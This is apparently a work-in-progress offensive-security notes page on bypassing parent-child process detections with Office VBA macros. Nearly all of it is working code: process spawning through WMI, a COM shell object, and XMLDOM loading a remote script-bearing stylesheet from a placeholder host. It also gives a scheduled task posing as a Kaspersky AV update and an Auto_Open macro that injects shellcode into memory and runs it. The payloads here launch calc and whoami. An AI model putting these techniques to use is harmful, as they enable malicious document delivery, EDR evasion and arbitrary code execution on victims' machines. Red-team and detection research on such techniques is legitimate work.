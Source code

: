 # Bypassing Parent Child / Ancestry Detections

{% hint style="info" %}
WIP
{% endhint %}

## Spawning via WmiPrvse.exe

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```javascript
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Spawning via ShellCOM

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```csharp
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Spawning via XMLDOM

{% code-tabs %}
{% code-tabs-item title="xmldom.vba" %}
```csharp
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("file://|http://bad.xsl")
xml.transformNode xsl
```
{% endcode-tabs-item %}

{% code-tabs-item title="bad.xsl" %}
```markup
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Spawning via Scheduled Task

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```csharp
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Kaspersky Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\cmd.exe"
Action.Arguments = "/c whoami"
Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Shellcode injection to Memory

```csharp
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long

Sub Auto_Open()
        Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
#If Vba7 Then
        Dim  Xlbufvetp As LongPtr
#Else
        Dim  Xlbufvetp As Long
#EndIf
        Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
        Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
        For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                Wyzayxya = Hyeyhafxp(Zolde)
                Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
        Next Zolde
        Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
End Sub
```

## References

{% embed url="https://www.countercept.com/blog/dechaining-macros-and-evading-edr/" %}

{% embed url="https://blog.didierstevens.com/2008/10/23/excel-exercises-in-style/" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros/" %}

{% embed url="https://blog.didierstevens.com/2009/05/06/shellcode-2-vbscript/" %}

